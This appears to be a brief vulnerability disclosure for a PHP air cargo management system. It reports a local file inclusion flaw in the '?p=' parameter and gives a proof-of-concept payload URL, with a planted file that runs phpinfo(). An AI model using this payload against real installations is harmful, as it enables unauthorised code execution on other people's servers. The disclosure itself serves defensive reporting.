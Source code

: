 # Air Cargo Management System v1.0 by oretnom23 has The local file contains

vendors: https://www.sourcecodester.com/php/15188/air-cargo-management-system-php-oop-free-source-code.html

Vulnerability File: ip/acms/?p=

Vulnerability location: ip/acms/?p=, p

Payload: ip/acms/?p=shell


![image](https://user-images.githubusercontent.com/54017627/166401037-9b3e7eb4-521c-40a7-ba93-d7c332131646.png)

We create a shell.php under the PHP file of the root of the website, which reads "<?" phpinfo ();? > "

![image](https://user-images.githubusercontent.com/54017627/166400989-1e0d7bf7-0a3b-4644-8b23-83965140409b.png)


And visit http://ip/acms/?p=shell You can see that phpinfo has been successfully included

![image](https://user-images.githubusercontent.com/54017627/166401259-0d36959f-5dbe-461e-be29-afb98d6bfad6.png)

